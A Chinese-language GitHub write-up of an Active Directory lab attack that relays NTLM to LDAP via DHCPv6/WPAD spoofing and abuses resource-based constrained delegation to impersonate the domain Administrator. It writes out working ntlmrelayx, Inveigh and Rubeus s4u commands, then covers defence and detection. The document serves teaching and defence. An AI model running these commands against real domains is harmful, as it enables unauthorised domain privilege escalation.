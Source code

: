 # NtlmRelayLdap  

## 简述  
在这里演示进行中继到LDAP服务器当中，利用的攻击方式是 
**基于资源的约束委派获取域内大量高权限主机票据**  

在**NtlmRelayCs**当中，我们通过petitpotam的方式使域控发出ntlm请求到我们控制的中继服务器当中，我们中继ntlm请求到域证书服务器当中从而获取了域控的证书最后通过证书换取了域管理员的黄金票据。  

那么既然我们能够中继到证书服务器，那应该也能中继到ldap服务器当中，在这篇文章当中，我们会利用中继到ldap服务器的方式配合 约束性委派拿下大量权限 
## 造成影响  
1、目前能够以普通域账户的身份获得其他域账户对应主机服务的最高权限。

2、能够任意创建计算机账户  
## 原理  
原理当中涉及到很多图片，如下即可    
![20211030182234](https://picsfor.oss-cn-shenzhen.aliyuncs.com/blogs/imgs/20211030182234.png)  
## 实践  
### ntlm 中继LDAP 修改信息 

0、创建一个计算机账户，这个账户自身需要知道密码  
1、创建ntlm的中继服务  
2、通过钓鱼或者流量引导的方式让受害者发送请求  
3、4 获得了对应的ntlm认证之后我们将收到的ntlm请求中继到ldap服务器当中更改用户的ms-delegate 权限 

### 基于资源的非约束性委派获取对应目标的票据 
5、通过S4U2proxy协议扩展获取到访问受害者的高权限账户  

### 实践步骤  
#### 0、创建计算机账户  
这一步可以使用PS脚本，我这里为了方便使用的方式是虚拟机加域   

#### 1、创建NTLM的中继服务  
```
sudo python3 ./examples/ntlmrelayx.py -t ldaps://ldap_server --escalate-user=machine_name\$ --user-delegate-access --no-smb-server --no-validate-privs -debug
```  
上述代码的意思是
- -t ldaps://ldap_server 中继到 ldap服务器当中 
- -escalate-user=luck\$  提升luck$的计算机账户权限
- --no-smb-server  不进行打开smb服务中继
- --no-validate-privs 不检验中继用户的权限（*检验权限花费大量的时间*）  
![20211030182616](https://picsfor.oss-cn-shenzhen.aliyuncs.com/blogs/imgs/20211030182616.png)  

#### 2、使用Inveigh伪造dhcp6服务器散播wpad.dat   
```
inveigh -SpooferIP 我的ntlm中继服务器IP地址    
```  
![20211030182934](https://picsfor.oss-cn-shenzhen.aliyuncs.com/blogs/imgs/20211030182934.png)  
简单描述下，这个工具通过使用dhcp6分配ipv6的地址并且分配代理文件的方式使内网当中的流量经过我们的中继服务器。  

#### 3、4 获得了对应的ntlm认证之后我们将收到的ntlm请求中继到ldap服务器当中更改用户的ms-delegate 权限  
![20211030183058](https://picsfor.oss-cn-shenzhen.aliyuncs.com/blogs/imgs/20211030183058.png)  
当流量进行中继的时候可见已经中继好了  
上述图当中的红框已经提示我们的自己创建的计算机账户已经配置好了对于用户主机的委派。 脚本已经自动将受害者的计算机账户的PrincipalsAllowedToDelegateToAccount 的值设置成了我们自己创建的账户$ ，也可由图可示  
![20211030183306](https://picsfor.oss-cn-shenzhen.aliyuncs.com/blogs/imgs/20211030183306.png)  


#### 5、通过S4U2proxy协议扩展获取到访问受害者的高权限账户 

当这个数值进行改变之后，我们就能 通过S4U2proxy协议扩展获取权限了。  
下面实际操作  
```
.\Rubeus.exe s4u /user:luc计算机账户$ /impersonateuser:Administrator /msdsspn:"host/victim.xxx.com" /ptt /rc4:我们自己创建计算机账户$的hash  
```
意思是通过 s4u的扩展协议使用luck$的计算机账户模拟Administrator的权限(*因为域当中Administrator是域管理员*)进行申请受害者的服务票据   
 
#### 6、最后我们得到了票据  
![20211030183516](https://picsfor.oss-cn-shenzhen.aliyuncs.com/blogs/imgs/20211030183516.png)   
![20211030183546](https://picsfor.oss-cn-shenzhen.aliyuncs.com/blogs/imgs/20211030183546.png)  

#### 7、任意创建计算机账户 

等待中继的时候更换为   
```
python3 ./examples/ntlmrelayx.py -t ldaps://xxx --add-computer  --no-validate-priv  
```   
![20211030183736](https://picsfor.oss-cn-shenzhen.aliyuncs.com/blogs/imgs/20211030183736.png)  

### 防御和检测  
回顾攻击流程，我们有如下关键操作   
#### 1、创建计算机账户  
**防御**
设置域账户最多创建的机器账户数量   
```
ms-DS-MachineAccountQuota
```  
对该属性设置为比较小的数值，如果不必要请设置为0，该属性默认的数值为10  
![20211030184223](https://picsfor.oss-cn-shenzhen.aliyuncs.com/blogs/imgs/20211030184223.png)  
#### 2、接管ipv6流量  
**防御**
1. 如果内网当中不需要使用 ipv6的话直接防火墙屏蔽所有DHCPV6的流量传入 
2. 如果不需要wpad.dat 的话可以通过组策略进禁用   

```
[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Internet Settings\Wpad] "WpadOverride"=dword:00000001
```  
![20211030184323](https://picsfor.oss-cn-shenzhen.aliyuncs.com/blogs/imgs/20211030184323.png)   

#### 3、对受害者账户设置委派   
**防御**
ldap相关
1、通过启用LDAP签名和LDAP通道绑定来缓解针对LDAP和LDAPS的中继。
2、将Administrative用户添加到Protected Users组或将其标记为帐户敏感且无法委派来减少攻击面  
**检测**

发现哪些基于资源的约束性委派  
```
Get-ADComputer -Filter {msDS-allowedtoactOnbehalfofotheridentity -like "*"} | Out-GridView
```  
![20211030184527](https://picsfor.oss-cn-shenzhen.aliyuncs.com/blogs/imgs/20211030184527.png)
当计算机账户请求访问受害者主机的服务票据的时候一般为高权限账户，在域控当中的日志当中会体现出，可以在日志审计当中添加对于异常请求票据的检测。

## Refer  
[实践的操作](https://chryzsh.github.io/relaying-delegation/)
[域内本地提权-烂番茄](https://mp.weixin.qq.com/s?__biz=MzI2NDk0MTM5MQ==&mid=2247483689&idx=1&sn=1d83538cebbe2197c44b9e5cc9a7997f&chksm=eaa5bb09ddd2321fc6bc838bc5e996add511eb7875faec2a7fde133c13a5f0107e699d47840c&scene=126&sessionid=1584603915&key=cf63f0cc499df801cce7995aeda59fae16a26f18d48f6a138cf60f02d27a89b7cfe0eab764ee36c6208343e0c235450a6bd202bf7520f6368cf361466baf9785a1bcb8f1965ac9359581d1eee9c6c1b6&ascene=1&uin=NTgyNDEzOTc%3D&devicetype=Windows+10&version=62080079&lang=zh_CN&exportkey=A8KlWjR%2F8GBWKaJZTJ2e5Fg%3D&pass_ticket=B2fG6ICJb5vVp1dbPCh3AOMIfoBgH2TXNSxmnLYPig8%3D)

[实战ntlmrelay](https://mp.weixin.qq.com/s?__biz=MzUzNTEyMTE0Mw==&mid=2247484454&idx=1&sn=bedd0331a3e7cfe561d13c72d301d477)

[利用资源约束委派进行的提权攻击分析](https://cloud.tencent.com/developer/article/1552171)

[wagging the dog](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html)

